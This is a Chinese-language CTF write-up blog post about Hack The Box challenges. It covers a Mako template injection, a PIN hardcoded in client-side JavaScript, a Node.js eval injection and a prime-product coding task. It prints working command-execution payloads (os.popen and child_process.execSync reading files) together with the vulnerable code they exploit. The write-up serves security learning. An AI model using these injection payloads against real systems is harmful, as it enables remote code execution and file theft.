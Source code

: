 ```yaml
---
title: "HTB-CTF Challenge做题记录"
description: "HTB-Challenge，HTB的一些类型题目，比较深入全面，方向也是比较广泛的，没事儿去学习了一下"
date: "2025-08-30"
tags:
  - "HTB"
  - "CTF"
  - "WEB"
  - "Coding"
  - "MOBILE"
  - "CRYPTO"
  - "REVERSE"
authors:
  - "bx"
draft: false              # 设为 true 则为草稿
slug: "htb-challenge"          # 随机URL字符串
---
```

<meta name="referrer" content="no-referrer">


# HTB-CTF-记录

## WEB

### Spookifier 间谍工具

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
> 最近出现了一种能为你生成恐怖名字的应用。该应用的用户后来发现他们的真实姓名也被神奇地更改了，导致生活陷入混乱。你能帮忙让这个应用下线吗？

直接定位到漏洞点

```python
from mako.template import Template


def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts

def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)

```

直接渲染了，并且是Mako引擎

```
${7*7}
```

![image-20250831121956207](https://raw.githubusercontent.com/bx33661/Picgo/main/20250831121958413.png)

```
${__import__('os').popen('ls').read()}
${__import__('os').popen('cat /fla*').read()}
```

得到flag


### **Trapped Source  被困的源头**

> Intergalactic Ministry of Spies tested Pandora's movement and intelligence abilities. She found herself locked in a room with no apparent means of escape. Her task was to unlock the door and make her way out. Can you help her in opening the door?  
> 星际间谍部测试了潘多拉的移动和智力能力。她发现自己被困在一个没有明显逃生方法的房间里。她的任务是解锁门并走出去。你能帮她打开门吗？

进入查看 js 代码，发现对应正确密码

```nginx
	<script>
		window.CONFIG = window.CONFIG || {
			buildNumber: "v20190816",
			debug: false,
			modelName: "Valencia",
			correctPin: "5417",
		}
	</script>
```

输入获得 flag





### **Breathtaking View  令人惊叹的景色**

> Check out my new website showcasing a breathtaking view—let's hope no one can 'manipulate' it!  
> 查看我的新网站，展示令人惊叹的景色——希望没有人能“操控”它！

一道 SSJI 的题目



一个计算器界面

代码审计

```javascript
const path       = require('path');
const express    = require('express');
const router     = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

router.get('/', (req, res) => {
  return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
  let { formula } = req.body;

  if (formula) {
    result = Calculator.calculate(formula);
    return res.send(response(result));
  }

  return res.send(response('Missing parameters'));
})

module.exports = router;

// ocd
```

看一下这个calculate 函数

```javascript
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}


// ocd
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756994516843-e66d27d4-3c6b-46a2-bcb0-e67e5fc2c7d4.png)

可以执行 js 代码

构造如下，列出当前目录

```html
process.platform

require('child_process').execSync('ls').toString()
```

尝试获取 flag

```javascript
require('child_process').execSync('cat /flag.txt').toString()
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756994999793-95b26fcb-b440-4ec3-a3f7-ec6105aac467.png)

得到 flag




## Coding

### Primed for Action 

> Intelligence units have intercepted a list of numbers. They seem to be used in a peculiar way: the adversary seems to be sending a list of numbers, most of which are garbage, but two of which are prime. These 2 prime numbers appear to form a key, which is obtained by multiplying the two. Your answer is the product of the two prime numbers. Find the key and help us solve the case.
> 情报单位截获了一份数字列表。它们似乎以一种特殊的方式使用：对手似乎在发送一份数字列表，其中大部分是垃圾数据，但有两项是质数。这两个质数似乎组成了一把密钥，通过将这两个数相乘获得。你的答案是这两个质数的乘积。找到密钥并帮助我们破解案件。

就是写一个算法

```python
# take in the number
n = input()

nums = list(map(int, n.split()))

def is_prime(x: int) -> bool:
    if x < 2:
        return False
    if x % 2 == 0:
        return x == 2
    i = 3
    while i * i <= x:
        if x % i == 0:
            return False
        i += 2
    return True

# 找两个质数
primes = [x for x in nums if is_prime(x)]

# 计算乘积
ans = primes[0] * primes[1]

# print answer
print(ans)
```
![image-20250831120324987](https://raw.githubusercontent.com/bx33661/Picgo/main/20250831122737951.png)